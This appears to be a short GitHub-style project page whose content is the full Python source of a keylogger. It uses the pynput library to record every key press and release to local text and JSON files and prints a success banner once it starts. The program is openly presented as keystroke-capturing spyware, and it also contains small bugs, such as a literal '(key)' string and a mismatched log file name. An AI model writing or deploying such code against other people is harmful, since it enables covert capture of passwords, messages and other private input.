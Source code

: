 # Keylogger-Project
import tkinter as tk 
from tkinter import *
from pynput import keyboard
import json

root = tk.Tk()
root.geometry("250x300")
root.title("keylogger")
key_list = []
x = False
key_strokes = ""
def update_txt_file(key):
	with open('log.txt','w+') as key_strokes:
		key_strokes.write(key)
def update_json_file(key_list):
	with open ('log.json','w+') as key_strokes:
		key_list_str = json.dumps(key_list)
		key_strokes.write(key_list_str)
def on_press(key):
	global x, key_list
	if x == False:
		key_list.append({'Presses':f'(key)'})
		x = True
	if x == True:
		key_list.append({'Held':f'{key}'})
	update_json_file(key_list)
def on_release(key):
	global x, key_list, key_strokes
	key_list.append({'Released': f'{key}'})
	if x == True:
		x = False
	update_json_file(key_list)
	key_strokes = key_strokes+str(key)
	update_txt_file(str(key_strokes))
print("[+] Running Keylogger Successfully!!\n[!] Saving the Key logs in 'logs.json'")
with keyboard.Listener(on_press=on_press,on_release=on_release) as listener:
	listener.join()
